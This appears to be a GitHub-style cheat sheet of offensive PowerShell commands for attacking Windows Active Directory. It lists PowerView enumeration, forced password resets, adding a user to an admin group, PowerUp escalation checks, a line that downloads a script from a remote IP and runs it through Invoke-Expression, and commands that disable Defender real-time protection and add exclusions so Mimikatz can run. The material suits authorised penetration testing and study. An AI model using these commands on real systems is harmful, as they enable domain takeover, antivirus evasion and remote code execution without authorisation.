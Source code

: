 # Cheat Sheet - PowerShell Scripts

## Table of content :

* [Powerview](#PowerView)
* [PowerUp](#PowerUp)
* [HostRecon](#Recon)
* [GetUsersSPNs](#GUS)
* [Disable AV and Exclude Mimikatz](#DisableAV)

### Powerview<a name="PowerView"></a>

```PowerShell
Get-DomainComputer -Unconstrained
Get-DomainUser -Domain sinhack.com
Get-DomainUser -Identity v0lk3n
Get-DomainTrust -API
Get-DomainForeignGroupMember -Domain dev.sinhack.com
ConvertFrom-SID S-1-5-21-1416213050-106196312-571527550-1107

#Parsing in Objectacl
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

# Change User Password Account using PowerView
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity V0lk3n -AccountPassword $UserPassword

# Add users to AD Groups
Add-DomainGroupMember -Identity 'ADMINS' -Members 'v0lk3n' -Rights all
```

### PowerUp<a name="PowerUp"></a>

```bash
Invoke-AllChecks
```

### HostRecon<a name="Recon"></a>

```PowerShell
Invoke-HostRecon
```

### GetUserSPNs<a name="GUS"></a>

```PowerShell
(new-object system.net.webclient).downloadstring('http://192.168.49.112:8080/GetUserSPNs.ps1') | iex
```

### Disable AV and Exclude Mimikatz<a name="DisableAV"></a>

1. Disable AV

```PowerShell
Set-MpPreference -DisableRealTimeMonitoring $true
```

2. Add two rules to exclude mimikatz. One for exclude Desktop path, another to exclude "exe" extensions.

```powershell
Set-MpPreference -ExclusionPath \Users\Administrator\Desktop
Set-MpPreference -ExclusionExtension exe
```
